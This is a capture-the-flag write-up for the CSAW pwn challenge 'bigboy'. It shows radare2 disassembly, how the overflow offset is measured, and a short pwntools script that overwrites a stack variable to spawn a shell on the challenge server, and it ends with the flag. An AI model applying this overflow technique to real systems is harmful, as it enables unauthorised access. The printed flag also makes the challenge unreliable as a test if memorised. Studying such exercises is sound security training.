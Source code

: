 # bigboy
Points: 25

## Category
Pwn

## Question
>Only big boi pwners will get this one!
>
>`nc pwn.chal.csaw.io 9000`


## Solution
We are given a file named [boi](distrib/boi).
Using the _file_ command, we are able to deduce that it is a 64-bit ELF executable

```
$ file boi 
boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1537584f3b2381e1b575a67cba5fbb87878f9711, not stripped
```

We can use radare2 to analyse the binary by doing `r2 -d ./boi`.

Do `aa` and `afl` to analyse and list the functions.

Do `s main` to seek to main function and do `pdf` to see the assembler code.

```
$ r2 -d ./boi 
Process with PID 3550 started...
= attach 3550 3550
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f215efbf210]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x7f215efbf210]> afl
0x00400498    3 26           sym._init
0x004004d0    1 6            sym.imp.puts
0x004004e0    1 6            sym.imp.__stack_chk_fail
0x004004f0    1 6            sym.imp.system
0x00400500    1 6            sym.imp.read
0x00400510    1 6            sym.imp.__libc_start_main
0x00400520    1 6            fcn.00400520
0x00400530    1 41           entry0
0x00400560    4 50   -> 41   sym.deregister_tm_clones
0x004005a0    3 53           sym.register_tm_clones
0x004005e0    3 28           sym.__do_global_dtors_aux
0x00400600    4 38   -> 35   entry1.init
0x00400626    1 27           sym.run_cmd
0x00400641    6 159          main
0x004006e0    4 101          sym.__libc_csu_init
0x00400750    1 2            sym.__libc_csu_fini
0x00400754    1 9            sym._fini
[0x7f215efbf210]> s main
[0x00400641]>
```

Assembler view
```asm
/ (fcn) main 159
|   main (int arg1, int arg2);
|           ; var int local_40h @ rbp-0x40
|           ; var int local_34h @ rbp-0x34
|           ; var int local_30h @ rbp-0x30
|           ; var int local_28h @ rbp-0x28
|           ; var int local_20h @ rbp-0x20
|           ; var int local_1ch @ rbp-0x1c
|           ; var int local_18h @ rbp-0x18
|           ; var int local_8h @ rbp-0x8
|           ; DATA XREF from entry0 (0x40054d)
|           0x00400641      55             push rbp
|           0x00400642      4889e5         mov rbp, rsp
|           0x00400645      4883ec40       sub rsp, 0x40               ; '@'
|           0x00400649      897dcc         mov dword [local_34h], edi  ; arg1
|           0x0040064c      488975c0       mov qword [local_40h], rsi  ; arg2
|           0x00400650      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00400659      488945f8       mov qword [local_8h], rax
|           0x0040065d      31c0           xor eax, eax
|           0x0040065f      48c745d00000.  mov qword [local_30h], 0
|           0x00400667      48c745d80000.  mov qword [local_28h], 0
|           0x0040066f      48c745e00000.  mov qword [local_20h], 0
|           0x00400677      c745e8000000.  mov dword [local_18h], 0
|           0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
|           0x00400685      bf64074000     mov edi, str.Are_you_a_big_boiiiii ; 0x400764 ; "Are you a big boiiiii??"
|           0x0040068a      e841feffff     call sym.imp.puts           ; int puts(const char *s)
|           0x0040068f      488d45d0       lea rax, qword [local_30h]
|           0x00400693      ba18000000     mov edx, 0x18               ; 24
|           0x00400698      4889c6         mov rsi, rax
|           0x0040069b      bf00000000     mov edi, 0
|           0x004006a0      e85bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x004006a5      8b45e4         mov eax, dword [local_1ch]
|           0x004006a8      3deebaf3ca     cmp eax, 0xcaf3baee
|       ,=< 0x004006ad      750c           jne 0x4006bb
|       |   0x004006af      bf7c074000     mov edi, str.bin_bash       ; 0x40077c ; "/bin/bash"
|       |   0x004006b4      e86dffffff     call sym.run_cmd
|      ,==< 0x004006b9      eb0a           jmp 0x4006c5
|      |`-> 0x004006bb      bf86074000     mov edi, str.bin_date       ; 0x400786 ; "/bin/date"
|      |    0x004006c0      e861ffffff     call sym.run_cmd
|      |    ; CODE XREF from main (0x4006b9)
|      `--> 0x004006c5      b800000000     mov eax, 0
|           0x004006ca      488b4df8       mov rcx, qword [local_8h]
|           0x004006ce      6448330c2528.  xor rcx, qword fs:[0x28]
|       ,=< 0x004006d7      7405           je 0x4006de
|       |   0x004006d9      e802feffff     call sym.imp.__stack_chk_fail ; void __stack_chk_fail(void)
|       `-> 0x004006de      c9             leave
\           0x004006df      c3             ret
```

From the assembly code, we can tell that it is trying to compare the value _0xdeadbeef_ to _0xcaf3baee_.

Upon closer inspection of the binary, we see that there is a _read()_ function which will give us a way to overflow the stack with our own values.

To find out how much padding we need, we can use a simple pattern such as the alphabet:
_AAAABBBBCCCCDDDDEEEEFFFFGGGG_

Let's set a breakpoint just before the _cmp_ instruction at address _0x004006a8_ by doing `db 0x004006a8`.

We can now run the program by doing `dc`. We can get the registers at the breakpoint by doing `dr eax`.

```
[0x00400641]> dc
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP
hit breakpoint at: 4006a8
|ERROR| Invalid command 'GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP' (0x47)
[0x004006a8]> dr eax
0x46464646
[0x004006a8]> 
```

As we can see, the register _eax_ has been overwritten from _0xdeadbeef_ to _0x46464646_. Using Python, we can easily check what character that is

```python
>>> chr(0x46)
'F'
```

Now we can calculate the padding required by finding out the length of characters required before reaching the first _F_

```python
>>> len('AAAABBBBCCCCDDDDEEEE')
20
```

Now we can to overwrite _eax_ with whatever value we want. In this case, they want it to be _0xcaf3baee_. We will need little endian formatting.

Converting _0xcaf3baee_ to little endian we get _\xee\xba\xf3\xca_. This can be done by using the _struct_ module in python

```python
>>> import struct
>>> struct.pack('I', 0xcaf3baee)
'\xee\xba\xf3\xca'
```

Now we can write our exploit script. First we pad using letter 'A's. We figured out previously that the padding is _20_. We also found out that the payload is _\xee\xba\xf3\xca_. We can combine these 2 information and send to the remote server, with the help of pwntools.

```python
from pwn import *

padding = 'A' * 20 # Creates a padding of 20 bytes
payload = p32(0xcaf3baee) # Sets value to overwrite. Similar to struct.pack('I', 0xcaf3baee)
exploit = padding + payload
# Send payload to remote server.
```

Working solution in [solve.py](solve.py)

### Flag
`flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`

## Credits
Solved by: [@platy](https://github.com/platy)